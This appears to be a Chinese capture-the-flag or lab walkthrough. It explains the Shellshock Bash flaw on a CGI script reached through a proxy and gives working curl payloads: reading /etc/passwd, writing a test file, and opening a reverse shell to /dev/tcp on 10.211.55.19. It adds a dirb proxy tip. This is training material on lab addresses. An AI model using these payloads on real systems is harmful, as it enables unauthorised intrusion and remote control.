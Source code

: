 
------------
拓展小知识：

1）拓展shellshock

nikto发现：/cgi-bin/status
访问：10.211.55.39/cgi-bin/status

在利用Shellshock之前，需要了解漏洞是什么，以及它是如何工作的？

Shellshock - CVE-2014-6271和CVE-2014-6278 - 是在 Linux 发行版中常用的Bash命令shell 中发现的一个严重漏洞。该漏洞允许攻击者在受影响的系统上运行任意命令，使用CGI环境的Web服务器会受影响。

Shellshock漏洞：
https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=5ee60f4e-030f-4691-b5b4-dc3c9e3701d4&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments
CVE-2014-6271：https://www.cvedetails.com/cve/cve-2014-6271
cve-2014-6278：https://www.cvedetails.com/cve/cve-2014-6278
CGI环境变量：http://www.cgi101.com/book/ch3/text.html


项目九payload：
'() { :;}; cat /etc/passwd'
由于前面知道CGI的apache服务器最容易受到攻击，还无法进行burpsuite抓包，那么用curl进行测试！

一般来说Bash允许将shell函数导出到服务器上其他的bash实例中，是通过使用函数定义（ENV_VAR_FN）创建一个环境变量来完成的：
env ENV_VAR_FN=’() { <your function> };’  
ENV_VAR_FN是在bash实例中执行命令的函数！
所以攻击方法：env ENV_VAR_FN=’() { <your function> }; <attacker code here>’

payload：User-Agent: () { :;}; echo test dayu > /var/www/dayu1
意思是在http头部的User-Agent发送env环境变量进行测试！

curl -x http://10.211.55.39:3128 -H "User-Agent: () { :;}; echo test dayu > /var/www/dayu" http://10.211.55.39/cgi-bin/status

访问：http://10.211.55.39/dayu   ---就能看到test dayu信息！存在=


最终payload：
curl -x http://10.211.55.39:3128 -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/10.211.55.19/9999 0>&1" http://10.211.55.39/cgi-bin/status

/bin/bash -i >& /dev/tcp/10.211.55.19/9999 0>&1

-x  使用HTTP代理启动连接
-H  使用http头进行连接User-Agent
或者使用 --proxy    -----可以参考curl --help all
------------------------

2）dirb漏扫代理技巧

dirb http://10.211.55.39/ -p http://10.211.55.39:3128
参考：https://zhuanlan.zhihu.com/p/26549845
----
 -p <proxy[:port]> : Use this proxy. (Default port is 1080)
 -P <proxy_username:proxy_password> : Proxy Authentication.
----
--------------------
3）wget走代理执行命令下载
